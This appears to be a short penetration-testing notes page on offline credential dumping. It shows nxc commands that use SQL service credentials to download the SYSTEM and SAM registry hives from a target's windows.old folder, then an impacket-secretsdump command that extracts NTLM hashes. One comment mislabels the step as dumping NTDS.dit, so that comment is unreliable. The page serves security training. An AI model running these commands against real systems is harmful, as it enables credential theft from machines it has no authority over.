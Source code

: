 # Local SAM Dump

If we have access to a `windows.old` directory or an old Windows backup, we can extract the `SYSTEM` and `SAM` registry hives to perform offline credential dumping:

* The `SAM` hive contains encrypted NTLM password hashes for local user accounts
* The `SYSTEM` hive holds the boot key required to decrypt them.&#x20;

{% code overflow="wrap" %}
```bash
# Download files with nxc
$ uv run nxc mssql <target-IP> -u sql_svc -p <pass> --get-file "c:\windows.old\windows\System32\SYSTEM" ./SYSTEM

$ uv run nxc mssql <target-IP> -u sql_svc -p <pass> --get-file "c:\windows.old\windows\System32\SAM" ./SAM

# Dump NTDS.dit
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```
{% endcode %}

> _This technique is conceptually the same as using_ [_`mimikatz lsadump::sam`_](../ad-tools/mimikatz.md#cached-creds)_, which performs the same operation but directly on a live system._
